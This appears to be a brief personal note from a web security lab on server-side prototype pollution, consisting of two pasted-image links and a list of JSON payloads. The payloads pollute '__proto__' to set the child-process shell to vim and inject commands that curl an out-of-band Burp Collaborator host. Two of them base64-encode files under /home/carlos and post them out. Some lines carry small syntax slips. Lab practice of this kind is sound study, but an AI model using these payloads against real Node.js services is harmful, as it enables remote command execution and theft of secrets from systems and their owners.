 ![[Pasted image 20230604063601.png]]

![[Pasted image 20230604063620.png]]

payloads:

"__proto__": {
	"json spaces":10
}


"__proto__": {
	"shell":"vim"
	"input": "! curl https://BURP-COLLABORATOR-IP.oastify.com\n"
}

"input":":! /home/carlos | base64 | curl -d @- https://BURP-COLLABORATOR-IP.,oastify.com\n"

"input":":! /home/carlos/secret | base64 | curl -d @- https://BURP-COLLABORATOR-IP.,oastify.com\n"


